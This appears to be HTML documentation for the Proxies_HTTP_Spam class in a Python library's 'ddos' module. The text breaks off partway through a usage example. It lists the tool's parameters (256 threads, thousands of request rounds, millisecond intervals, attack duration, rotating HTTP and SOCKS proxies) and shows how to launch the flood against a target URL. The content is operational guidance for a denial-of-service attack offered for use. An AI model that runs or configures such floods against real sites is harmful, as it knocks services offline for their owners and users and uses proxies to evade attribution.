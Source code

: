 <ul>
    <li><code>u</code> (str): The target URL for the GET and POST requests.</li>
    <li><code>p</code> (int): Port number of the target server (default is 80).</li>
    <li><code>cookie</code> (str): Custom cookies to include in requests.</li>
    <li><code>user_agents</code> (list): List of custom User-Agent headers for requests (default is Common_Variables.user_agents_list).</li>
    <li><code>method</code> (int): The HTTP request method (1 for GET, 2 for POST, 3 for random) (default is 3).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>scraping_timeout</code> (int): Timeout for proxy scraping in seconds (default is 15).</li>
    <li><code>paths</code> (list): List of URL paths to target (default is ["/"]).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 256).</li>
    <li><code>post_min</code> (int): Minimum number of POST requests to send (default is 5).</li>
    <li><code>post_max</code> (int): Maximum number of POST requests to send (default is 10).</li>
    <li><code>post_field_max</code> (int): Maximum size of POST request fields (default is 100).</li>
    <li><code>post_field_min</code> (int): Minimum size of POST request fields (default is 50).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>round_min</code> (int): Minimum number of rounds for requests (default is 1000).</li>
    <li><code>round_max</code> (int): Maximum number of rounds for requests (default is 10000).</li>
    <li><code>interval</code> (float): Interval between requests in seconds (default is 0.001).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>
    <li><code>http_proxies</code> (list): List of HTTP proxies to use.</li>
    <li><code>socks4_proxies</code> (list): List of SOCKS4 proxies to use.</li>
    <li><code>socks5_proxies</code> (list): List of SOCKS5 proxies to use.</li>
    <li><code>ssl_on</code> (bool): Enable SSL/TLS for requests (default is False).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is True).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the attack by sending GET and POST requests to the target URL through a list of proxy servers. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>Proxies_HTTP_Spam</code> class, create an instance of it by providing the required parameters, and it will start spamming the target URL with GET and POST requests in the background. Here's an example:</p>

<pre><code>
from bane.ddos import Proxies_HTTP_Spam

#Create an instance of Proxies_HTTP_Spam
proxy_http_spam = Proxies_HTTP_Spam(
    "example.com",
    p=80,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    method=3,
    threads_daemon=True,
    scraping_timeout=15,
    paths=["/"],
    threads=256,
    post_min=5,
    post_max=10,
    post_field_max=100,
    post_field_min=50,
    timeout=5,
    round_min=1000,
    round_max=10000,
    interval=0.001,
    duration=60,
    http_proxies=["proxy1:8080", "proxy2:8888"],
    socks4_proxies=None,
    socks5_proxies=["socks5_proxy1:1080", "socks5_proxy2:1080"],